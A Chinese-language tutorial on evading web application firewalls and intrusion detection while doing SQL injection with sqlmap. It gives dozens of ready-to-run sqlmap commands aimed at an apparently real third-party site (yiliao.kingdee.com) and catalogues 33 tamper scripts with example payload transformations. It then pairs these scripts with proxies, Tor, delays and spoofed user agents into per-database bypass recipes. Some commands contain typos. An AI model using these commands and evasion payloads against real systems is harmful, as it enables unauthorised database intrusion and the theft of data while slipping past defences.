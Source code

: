 0x00 前言
   现在的网络环境往往是WAF/IPS/IDS保护着Web 服务器等等，这种保护措施往往会过滤挡住我们的SQL注入查询链接，甚至封锁我们的主机IP，所以这个时候，我们就要考虑怎样进行绕过，达到注入的目标。因为现在WAF/IPS/IDS都把sqlmap 列入黑名单了，呵呵！但是本文基于sqlmap 进行绕过注入测试，介绍至今仍然实用有效的技巧，以下策略在特定的环境能够成功绕过，具体是否绕过，请仔细查看输出的信息。

0x01 确认WAF
     首先我们判断该Web 服务器是否被WAF/IPS/IDS保护着。这点很容易实现，因为我们在漏扫或者使用专门工具来检测是否有WAF，这个检测，在nmap 的NSE，或者WVS的策略或者APPSCAN的策略中都有，我们可以利用这些来判断。在此我们，也介绍使用sqlmap 进行检测是否有WAF/IPS/IDS

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10 --identify-waf#首选

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10  --check-waf#备选

0x02 使用参数进行绕过
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 #使用任意浏览器进行绕过，尤其是在WAF配置不当的时候

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3#使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60 #使用长的延时来避免触发WAF的机制，这方式比较耗时

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985#使用代理进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy#禁止使用系统的代理，直接连接进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session#清空会话，重构注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex#或者使用参数 --no-cast ，进行字符码转换

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile #对移动端的服务器进行注入

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor # 匿名注入

0x03 使用脚本介绍
1 使用格式：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tamper=A.py,B.py#脚本A，脚本B 

2 脚本总类
01 apostrophemask.py#用utf8代替引号；Example: ("1 AND '1'='1") '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'

02 equaltolike.py#MSSQL * SQLite中like 代替等号；Example:  Input: SELECT * FROM users WHERE id=1 ；Output: SELECT * FROM users WHERE id LIKE 1

03 greatest.py#MySQL中绕过过滤’>’ ,用GREATEST替换大于号；Example: ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'

04 space2hash.py#空格替换为#号 随机字符串 以及换行符；Input: 1 AND 9227=9227；Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227

05 apostrophenullencode.py#MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL绕过过滤双引号，替换字符和双引号；

06 halfversionedmorekeywords.py#当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论；

07 space2morehash.py#MySQL中空格替换为 #号 以及更多随机字符串 换行符；

08 appendnullbyte.py#Microsoft Access在有效负荷结束位置加载零字节字符编码；Example: ('1 AND 1=1') '1 AND 1=1%00'

09 ifnull2ifisnull.py#MySQL，SQLite (possibly)，SAP MaxDB绕过对 IFNULL 过滤。 替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’

10 space2mssqlblank.py(mssql)#mssql空格替换为其它空符号

11base64encode.py#用base64编码j Example: ("1' AND SLEEP(5)#") 'MScgQU5EIFNMRUVQKDUpIw==' Requirement: all

12 space2mssqlhash.py#mssql查询中替换空格

13 modsecurityversioned.py#(mysql中过滤空格，包含完整的查询版本注释;Example: ('1 AND 2>1--') '1 /*!30874AND 2>1*/--'

14 space2mysqlblank.py#(mysql中空格替换其它空白符号

15 between.py#MS SQL 2005，MySQL 4, 5.0 and 5.5 * Oracle 10g * PostgreSQL 8.3, 8.4, 9.0中用between替换大于号（>）

16 space2mysqldash.py#MySQL，MSSQL替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’）

17 multiplespaces.py#围绕SQL关键字添加多个空格；Example: ('1 UNION SELECT foobar') '1 UNION SELECT foobar'

18 space2plus.py#用+替换空格；Example: ('SELECT id FROM users') 'SELECT+id+FROM+users'

19 bluecoat.py#MySQL 5.1, SGOS代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like

20 nonrecursivereplacement.py#双重查询语句。取代predefined SQL关键字with表示 suitable for替代（例如 .replace（“SELECT”、””)） filters

21 space2randomblank.py#代替空格字符（“”）从一个随机的空白字符可选字符的有效集

22 sp_password.py#追加sp_password’从DBMS日志的自动模糊处理的26 有效载荷的末尾

23 chardoubleencode.py#双url编码(不处理以编码的)

24 unionalltounion.py#替换UNION ALL SELECT UNION SELECT；Example: ('-1 UNION ALL SELECT') '-1 UNION SELECT'

25 charencode.py#Microsoft SQL Server 2005，MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL 8.3, 8.4, 9.0url编码；

26 randomcase.py#Microsoft SQL Server 2005，MySQL 4, 5.0 and 5.5，Oracle 10g，PostgreSQL 8.3, 8.4, 9.0中随机大小写

27 unmagicquotes.py#宽字符绕过 GPC addslashes；Example: * Input: 1′ AND 1=1 * Output: 1%bf%27 AND 1=1–%20

28 randomcomments.py#用/**/分割sql关键字；Example:‘INSERT’ becomes ‘IN//S//ERT’

29 charunicodeencode.py#ASP，ASP.NET中字符串 unicode 编码；

30 securesphere.py#追加特制的字符串；Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'"

31 versionedmorekeywords.py#MySQL >= 5.1.13注释绕过

32 space2comment.py#Replaces space character (‘ ‘) with comments ‘/**/’

33 halfversionedmorekeywords.py#MySQL < 5.1中关键字前加注释



0x04脚本参数组合策略绕过
1 mysql绕过：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 -delay=3.5 --tamper=space2hash.py,modsecurityversioned.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent --hpp  --tamper=space2mysqldash.p,versionedmorekeywords.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=apostrophemask.py,equaltolike.py

备注：这些组合策略可以根据注入的反馈信息，及时调整组合策略

2 MSSQL：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=randomcase.py,charencode.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --hpp --tamper=space2comment.py,randomcase.py
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --time-sec=120  --tamper=space2mssqlblank.py,securesphere.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --tamper=unionalltounion.py,base64encode.p

3 ms access:
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent  --tamper=appendnullbyte.py,space2plus.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --random-agent --hpp  --tamper=chardoubleencode.py

4 Oracle：
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5 --random-agent --hpp --tamper=unmagicquotes.py,unionalltounion.py

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=5--user-agent =“Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.0” --hpp --tamper=charunicodeencode.py,chardoubleencode.py

5 建议：
      因为WAF可能采用白名单规则，所以对于选择哪种策略，重点是根据-v 3 提示的信息进行判断，可以抓取主流的浏览器的user-agent ,s适当的延时，加上注入字符转换---大小写、空格、字符串、注释、加密等等方式

      鉴于参数和32种脚本，在我们平时的注入，这些通过不同的多重组合来进行测试，这个测试或者比较耗时